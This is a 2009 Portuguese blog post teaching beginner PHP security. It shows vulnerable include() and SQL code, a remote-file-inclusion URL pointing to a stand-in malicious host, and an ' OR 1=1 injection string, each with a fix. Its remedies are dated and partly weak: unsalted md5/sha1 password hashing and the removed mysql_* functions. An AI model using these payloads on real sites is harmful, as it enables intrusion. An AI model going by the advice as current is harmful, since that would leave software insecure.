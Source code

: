 ```yaml
---
layout: post
title: Principais falhas de segurança no PHP
excerpt: Veja um pouco sobre cada uma das principais falhas de segurança criadas pelos
  iniciantes em PHP e que podem deixar um site de portas abertas para o mundo...

date: '2009-03-24 20:08:33 -0300'
categories:
- PHP
- Artigos
- Segurança
tags: []
---
```

<p>Hoje vou falar sobre alguns erros comuns que são cometidos por programadores que estão começando agora. Resolvi fazer esse post pois vejo diariamente em fóruns de PHP pessoas com erros em scripts que possuem rombos enormes de segurança...</p>
<p>Não prometo deixar o seu sistema tão protegido quanto o <a title="Cadillac One" href="/arquivos/2009/03/cadillac-one.jpg" target="_blank"><em>carro do Obama</em></a> mas, sem dúvida, você vai evitar que muita gente faça um estrago considerável no seu site.</p>
<p>Se você se identificar com algumas dessas medidas não saia correndo e se jogue da ponte... Faça os devidos ajustes e tudo ficará bem.</p>
<h4>Cuidados com a URL - Parte I</h4>
<p>Uma falha muito comum são aqueles sites que, tentando usar um sistema "legal", acabam abusando da sorte... São sites que incluem o conteúdo <span style="color: #999999;">(via <strong>include()</strong>)</span> baseado em uma variável do método $_GET. Exemplo:</p>
<p>[code language="php"]
<?php
	// Verifica se a variável $_GET['pagina'] existe
	if (isset($_GET['pagina'])) {
		// Pega o valor da variável $_GET['pagina']
		$arquivo = $_GET['pagina'];
	} else {
		// Se não existir variável, define um valor padrão
		$arquivo = 'home.php';
	}
	include ($arquivo); // Inclui o arquivo
?>
[/code]</p>
<p>E na URL do site ficaria:
<span style="color: #008080;">http://www.meusite.com.br/?<span style="color: #0000ff;">pagina=contato.php</span></span></p>
<p>Com isso o "invasor" pode, por exemplo, colocar um caminho de um script externo no lugar da variável:
<span style="color: #008080;">http://www.meusite.com.br/?<span style="color: #0000ff;">pagina=<span style="color: #ff0000;">http://sitedumal.net/deleta-banco.php</span></span></span></p>
<p>O seu site incluiria o arquivo normalmente e executaria tudo que existe dentro dele... O resto você já pode imaginar.</p>
<p>Evitar que isso aconteça é extremamente simples: é só criar um <em>array </em>contendo os nomes dos arquivos que poderão ser incluídos, dessa forma:</p>
<p>[code language="php" wrap="false"]
<?php
	// Define uma lista com os arquivos que poderão ser chamados na URL
	$permitidos = array('home.php', 'produtos.php', 'contato.php', 'empresa.php');</p>
<p>	// Verifica se a variável $_GET['pagina'] existe E se ela faz parte da lista de arquivos permitidos
	if (isset($_GET['pagina']) AND (array_search($_GET['pagina'], $permitidos) !== false)) {
		// Pega o valor da variável $_GET['pagina']
		$arquivo = $_GET['pagina'];
	} else {
		// Se não existir variável $_GET ou ela não estiver na lista de permissões, define um valor padrão
		$arquivo = 'home.php';
	}
	include ($arquivo); // Inclui o arquivo
?>
[/code]</p>
<p>Viu? Adicionamos uma única linha e mais uma condição e está tudo resolvido. Com isso, se o atacante colocar lá o site dele na URL do seu site o PHP vai identificar que a variável <strong>$_GET['pagina']</strong> existe mas não está no <em>array </em><strong>$permitidos</strong>, então ele vai incluir o arquivo <strong>home.php</strong>.</p>
<h4>Cuidados com a URL - Parte II</h4>
<p>Outro erro comum é quando passamos parâmetros pela URL, por exemplo: o ID de uma categoria ou de um produto que, mais tarde, será buscado direto no banco para recolher algumas informações.</p>
<p>Geralmente o formato é o seguinte:
<span style="color: #008080;">http://www.meusite.com.br/produtos.php?<span style="color: #0000ff;">id=12</span></span>
ou
<span style="color: #008080;">http://www.meusite.com.br/?pagina=produtos.php&<span style="color: #0000ff;">id=12</span></span></p>
<p>Com isso <span style="color: #999999;">(se você não se preparar) </span>você deixa uma porta aberta para um ataque famoso chamado <strong>SQL-Injection</strong> que nada mais é do que a inserção de um código SQL em um campo de texto ou parâmetro da URL que será enviado diretamente para o banco. Vamos a um exemplo:</p>
<p>[code language="php" highlight="9"]
<?php
// Formato da URL:
//  http://www.meusite.com.br/produtos.php?id=12</p>
<p>// Salva o parâmetro da URL numa variável
$produto = $_GET['id'];</p>
<p>// Monta a consulta MySQL
$sql = "SELECT * FROM `produtos` WHERE `id` = '".$produto."' LIMIT 1";</p>
<p>// Executa a query
$query = mysql_query($sql);</p>
<p>// Salva o resultado (em formato de array) em uma variável
$resultado = mysql_fetch_assoc($query);</p>
<p>?>
[/code]</p>
<p>A sua consulta ao MySQL ficaria da seguinte forma:</p>
<p>[code language="sql" light="true"]SELECT * FROM `produtos` WHERE `id` = '12' LIMIT 1[/code]</p>
<p>Até aqui tudo bem.. Seu script funciona, você tem o que precisa e tá tudo na mais perfeita harmonia... Mas chega um <span style="text-decoration: line-through;">desocupado</span> invasor e modifica a sua URL deixando da seguinte forma:</p>
<p><span style="color: #008080;">http://www.meusite.com.br/produtos.php?<span style="color: #0000ff;">id=<span style="color: #ff0000;">' OR 1=1 OR ''='</span> </span></span></p>
<p>Agora a sua query MySQL fica assim:</p>
<p>[code language="sql" light="true"]SELECT * FROM `produtos` WHERE `id` = '' OR 1=1 OR '' = '' LIMIT 1[/code]</p>
<p>Viu o que aconteceu? As possíveis condições para a consulta ser verdadeira são: id igual a vazio, 1 igual a 1 e vazio igual a vazio... Essa consulta vai ser dada como verdadeira e todos os produtos serão retornados. Sim meu amigo, é o fim do mundo.</p>
<p>Mas, como eu disse, não estou aqui para te assustar e sim para mostrar como resolver o pepino... Vamos a uma atitude simples mas que te salvará do Apocalipse... É só mudar uma linha:</p>
<p>[code language="php"]
// Salva o parâmetro da URL numa variável obrigando-o a ser um valor inteiro
$produto = (int)$_GET['id'];
[/code]</p>
<p>Com isso eu digo que valor da variável <strong>$produto</strong> será igual ao <strong>valor inteiro</strong> <span style="color: #999999;">(<em>int </em>de integer)</span> da variável <strong>$_GET['id']</strong>. Problema resolvido meus caros!</p>
<p>Se o atacante colocar uma string como parâmetro <span style="color: #999999;">(todo SQL-Injection é uma string)</span> ela será convertida para inteiro... E o valor inteiro de uma string é igual a zero.  8-)</p>
<p>Peço <span style="color: #ff0000;"><strong>atenção dobrada</strong></span> para o entendimento desse último exemplo pois o <strong>SQL-Injection</strong> é o ataque mais comum dos últimos tempos.</p>
<p>Caso você passe parâmetros via URL que são strings e não números inteiros, você pode usar a função <strong>mysql_real_escape_string()</strong> da seguinte forma:</p>
<p>[code language="php"]
$parametro = mysql_real_escape_string($_GET['nome']);
[/code]</p>
<p>Com isso você evita o uso de aspas e caracteres protegidos do MySQL mantendo a sua <em>query </em>segura. Esse caso também vale para formulários dos quais os dados vão direto para consultas MySQL <span style="color: #999999;">(formulários de login, cadastro e comentários, por exemplo)</span>.</p>
<h4>Sobre Usuários e Senhas</h4>
<p>Outro ponto muito importante é não exibir, em momento algum, o nome de login <span style="color: #999999;">(usuário)</span> de algum usuário cadastrado no sistema. Lembre-se que para um usuário conseguir invadir a conta do outro ele precisa de duas coisas: usuário <span style="color: #999999;">(ou e-mail)</span> e a senha.. Se ele souber o usuário já tem 50% de sucesso.</p>
<p>Vale lembrar também que você <strong>não precisa</strong> deixar a senha do usuário na forma real quando salva-la no banco. É muito mais seguro salvar um <strong>md5() </strong>ou <strong>sha1()</strong> da senha no banco e quando for necessário fazer a validação do usuário você também gera o <strong>md5()</strong> ou <strong>sha1()</strong> da senha que ele digitou e compara com o que há no banco. Assim, se por ventura alguém conseguir invadir e pegar todos os registros do banco de usuários, o máximo que ele irá conseguir são o usuário/e-mail e uma senha criptografada.</p>
<p>Se quiser saber como funciona criptografica no PHP é só ver esse post:» <a href="/criptografia-no-php-usando-md5-sha1-e-base64">Criptografia no PHP usando md5, sha1 e base64</a></p>
<p>Espero que tenham gostado. :)</p>

